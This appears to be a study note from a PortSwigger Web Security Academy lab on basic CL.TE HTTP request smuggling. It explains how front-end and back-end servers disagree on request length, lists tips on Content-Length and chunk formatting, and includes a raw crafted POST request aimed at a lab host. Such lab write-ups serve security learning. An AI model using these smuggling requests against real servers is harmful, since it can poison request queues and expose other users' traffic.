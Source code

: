 ### How it works

<img width="514" alt="image" src="https://user-images.githubusercontent.com/56427824/195548808-cb03ec10-61ee-4a48-a310-812993844477.png">

- Content Length VERY IMPORTANT

- Lenghts of your chunks VERY IMPORTANT

- `\r\n` very important (single empty lines)

- `\r\n\r\n` very important (double empty lines)

- If not sure, always add more lines (if possible) and account for it when setting content lengthA

### HTTP request smuggling, basic CL.TE vulnerability

<img width="644" alt="image" src="https://user-images.githubusercontent.com/56427824/195522701-9c44c82b-73c2-4bba-9dc8-e2aa524bede6.png">

- Content Length = 13, start counting from 0

  <img width="173" alt="image" src="https://user-images.githubusercontent.com/56427824/195522951-b97eae00-1828-4287-aef4-1879bf94292d.png">

https://forum.portswigger.net/thread/disable-automatic-update-of-content-length-in-intruder-and-turbo-intruder-18ac2dad

https://portswigger.net/burp/documentation/desktop/tools/repeater/options

Body of the current request must be 0

The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

The front-end server processes the Content-Length header and determines that the request body is X bytes long, up to the end of SMUGGLED. This request is forwarded on to the back-end server.

The back-end server processes the Transfer-Encoding header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be zero length, and so is treated as terminating the request. The following bytes, SMUGGLED, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

```
POST /post/comment HTTP/1.1
Host: 0a480093035f12dcc04d11bd00e7008d.web-security-academy.net
Cookie: session=zka8KHc2xIjR4lhZb9Us074SujxbdfWF
Content-Length: 118 # can change
Transfer-Encoding: chunked
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a480093035f12dcc04d11bd00e7008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a480093035f12dcc04d11bd00e7008d.web-security-academy.net/post?postId=3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
                                     
0

```